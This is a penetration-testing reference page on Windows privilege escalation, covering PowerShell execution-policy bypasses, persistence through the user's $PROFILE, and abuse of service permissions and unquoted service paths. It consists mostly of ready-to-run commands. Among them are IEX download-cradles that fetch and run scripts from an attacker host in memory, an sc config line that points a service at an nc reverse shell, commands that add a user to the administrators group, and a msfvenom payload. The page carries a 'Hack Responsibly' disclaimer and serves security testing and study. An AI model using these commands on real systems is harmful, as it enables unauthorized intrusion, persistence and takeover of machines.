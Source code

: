 # Privilege Escalation

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

## Privilege Escalation

### Script Execution Policy Bypass Methods

<table>
  <thead>
    <tr>
      <th style="text-align:left">Bypass Method</th>
      <th style="text-align:left">Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left"><code>Set-Executionpolicy unrestricted</code>
      </td>
      <td style="text-align:left">Administrator rights are required.</td>
    </tr>
    <tr>
      <td style="text-align:left"><code>Set-ExecutionPolicy -Scope CurrentUser Unrestricted</code>
      </td>
      <td style="text-align:left">Only works in the context of the current user, but requires no Administrator
        rights.</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <ol>
          <li>Open .ps1 file in text editor.</li>
          <li>Copy all text in the file</li>
          <li>Paste into PowerShell</li>
        </ol>
      </td>
      <td style="text-align:left">PowerShell will run each line of the script one at a time, essentially
        the same as running the script.</td>
    </tr>
    <tr>
      <td style="text-align:left"><code>function &lt;name&gt; { &lt;code_here&gt; }</code>
      </td>
      <td style="text-align:left">Similar to the above example, however you paste your code inside the curly
        braces, and run the code by typing the <code>&lt;name&gt;</code> of your
        function. Allows for <b>code reuse without having to copy and paste multiple times.</b>
      </td>
    </tr>
    <tr>
      <td style="text-align:left"><code>cat &lt;C:\script.ps1&gt; | IEX</code>
      </td>
      <td style="text-align:left">Pipes the output of the script to the <code>Invoke-Expression</code> cmdlet,
        which runs any specified string as a command and returns the results to
        the console. <code>IEX</code> is an alias for <code>Invoke-Expression</code>.</td>
    </tr>
    <tr>
      <td style="text-align:left"><code>IEX { &lt;code_here&gt; }</code>
      </td>
      <td style="text-align:left">Essentially creates a one-time use function from your code.</td>
    </tr>
    <tr>
      <td style="text-align:left"><code>&amp; { &lt;code_here&gt; }</code>
      </td>
      <td style="text-align:left">The operator (<code>&amp;</code>) is an alias for <code>Invoke-Expression</code> and
        is equivelent to the example above.</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p><code>$text = Get-Content C:\temp\AnyFile.txt -Raw</code>
        </p>
        <p><code>$script = [System.Management.Automation.ScriptBlock]::Create($text)</code>
        </p>
        <p>&lt;code&gt;&lt;/code&gt;</p>
        <p><code>&amp; $script</code>
        </p>
      </td>
      <td style="text-align:left">Using the .NET object <code>System.Management.Automation.ScriptBlock</code> we
        can compile and text content to a script block. Then, using (<code>&amp;</code>)
        we can easily execute this compiled and formatted text file.</td>
    </tr>
    <tr>
      <td style="text-align:left"><code>Echo IEX(New-Object Net.WebClient).DownloadString(http://&lt;ip:port/filename.ps1&gt;) | PowerShell -NoProfile -</code>
      </td>
      <td style="text-align:left">Download script from attacker&apos;s machine, then run in PowerShell,
        in memory. No files are written to disk.</td>
    </tr>
  </tbody>
</table>

### Other Bypass Methods

#### Execute .ps1 scripts on compromised machine: in memory and other bypass methods

If your are able to use `Invoke-Expresion` \(`IEX`\) this module can be imported using the following command. You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run. Notice the .ps1 extension. When using `downloadString` this will need to be a ps1 file to inject the module into memory in order to run the cmdlets.

```text
IEX (New-Object -TypeName Net.WebClient).downloadString("http://$attacker_ipv4/$script.ps1")
```

`IEX` is blocked from users in most cases and `Import-Module` is monitored by things such as ATP. Downloading files to a target's machine is not always allowed in a penetration test. Another method to use is `Invoke-Command`. This can be done using the following format.

```text
Invoke-Command -ComputerName $computer -FilePath .'\$module.ps1m' -Credential (Get-Credential)
```

This will execute the file and it's contents on the remote computer.

Another sneaky method would be to have the function load at the start of a new PowerShell window. This can be done by editing the `$PROFILE` file.

```text
Write-Verbose "Creates powershell profile for user"
New-Item -Path $PROFILE -ItemType File -Force
#
# The $PROFILE VARIABLE IS EITHER GOING TO BE
#    - C:\Users\<username>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
# OR
#    - C:\Users\<username>\OneDrive\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
#
# Write-Verbose "Turning this module into the PowerShell profile will import all of the commands everytime the executing user opens a PowerShell session. This means you will need to open a new powershell session after doing this in order to access the commands. I assume this can be done by just executing the "powershell" command though you may need to have a new window opened or new reverse/bind shell opened. You can also just reload the profile
cmd /c 'copy \\$attacker_ip>\$script.ps1 $env:USERPROFILE\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.psm1

powershell.exe
# If that does not work try reloading the user profile.
& $PROFILE
```

## Services

#### Modify service binary path \(_link to persistence pages_\)

If one of the groups you have access to has SERVICE\_ALL\_ACCESS in a service, then it can modify the binary that is being executed by the service. To modify it and execute nc you can do:

```text
sc config <service_Name> binpath= "C:\nc.exe -nv <IP> <port> -e C:\WINDOWS\System32\cmd.exe"
//use SYSTEM privileged service to add your user to administrators group
sc config <service_Name> binpath= "net localgroup administrators <username> /add"
//replace executable with your own binary (best to only do this for unused services!)
sc config <service_name> binpath= "C:\path\to\backdoor.exe"
```

#### Service Permissions \(_link to persistence pages_\)

Other Permissions can be used to escalate privileges: SERVICE\_CHANGE\_CONFIG Can reconfigure the service binary WRITE\_DAC: Can reconfigure permissions, leading to SERVICE\_CHANGE\_CONFIG WRITE\_OWNER: Can become owner, reconfigure permissions GENERIC\_WRITE: Inherits SERVICE\_CHANGE\_CONFIG GENERIC\_ALL: Inherits SERVICE\_CHANGE\_CONFIG To detect and exploit this vulnerability you can use exploit/windows/local/service\_permissions

Check if you can modify the binary that is executed by a service. You can get every binary that is executed by a service using wmic \(not in system32\) and check your permissions using icacls:

```text
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

You can also use sc.exe and icacls:

```text
sc.exe query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```

#### Services registry permissions \(_link to persistence pages_\)

You should check if you can modify any service registry. You can check your permissions over a service registry doing:

```text
reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```

Check if Authenticated Users or NT AUTHORITY\INTERACTIVE have FullControl. In that case you can change the binary that is going to be executed by the service. To change the Path of the binary executed: `reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f`

#### Unquoted Service Paths \(_link to persistence pages_\)

If the path to an executable is not inside quotes, Windows will try to execute every ending before a space. For example, for the path C:\Program Files\Some Folder\Service.exe Windows will try to execute:

```text
C:\Program.exe 
C:\Program Files\Some.exe 
C:\Program Files\Some Folder\Service.exe
```

To list all unquoted service paths \(minus built-in Windows services\)

```text
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """ #Not only auto services
```

-or-

```text
for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
    for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
        echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
    )
)
```

-also-

```text
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

You can detect and exploit this vulnerability with metasploit: `exploit/windows/local/trusted_service_path` You can manually create a service binary with msfvenom: `msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe`

### References

* [http://vcloud-lab.com/entries/powershell/different-ways-to-bypass-powershell-execution-policy-ps1-cannot-be-loaded-because-running-scripts-is-disabled](http://vcloud-lab.com/entries/powershell/different-ways-to-bypass-powershell-execution-policy-ps1-cannot-be-loaded-because-running-scripts-is-disabled) - [@KunalAdapi](https://twitter.com/kunalUdapi)
* [https://gitlab.com/pentest-tools/PayloadsAllTheThings/blob/master/Methodology and Resources/Windows - Privilege Escalation.md](https://gitlab.com/pentest-tools/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

